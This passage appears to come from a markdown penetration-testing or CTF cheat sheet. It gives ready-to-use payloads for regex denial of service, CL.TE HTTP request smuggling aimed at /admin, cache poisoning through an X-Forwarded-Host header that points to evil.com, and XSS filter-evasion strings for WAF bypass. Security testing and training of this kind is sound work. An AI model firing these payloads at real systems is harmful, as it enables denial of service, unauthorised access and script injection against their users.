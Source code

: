 ### Step 11.2: Regex DoS (ReDoS)
```bash
# Evil regex: (a+)+$
# Send input: aaaaaaaaaaaaaaaaaaaaaa!

curl "$TARGET/validate?input=aaaaaaaaaaaaaaaaaaaaaa!"
```

### Step 11.3: HTTP Request Smuggling
```
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: target.com
```

### Step 11.4: Cache Poisoning
```bash
# Poison X-Forwarded-Host header
curl $TARGET -H "X-Forwarded-Host: evil.com"

# If cached, all users get redirected to evil.com
```

### Step 11.5: WAF Bypass
```bash
# Case variation
<ScRiPt>alert(1)</sCrIpT>

# Double encoding
%253Cscript%253E

# Comment insertion
<scr<!--comment-->ipt>

# Null bytes
<script%00>alert(1)</script>

# Unicode
<script>alert(1)</script>  # Use Unicode lookalikes
```

---

## 🎯 CTF Challenge Workflow
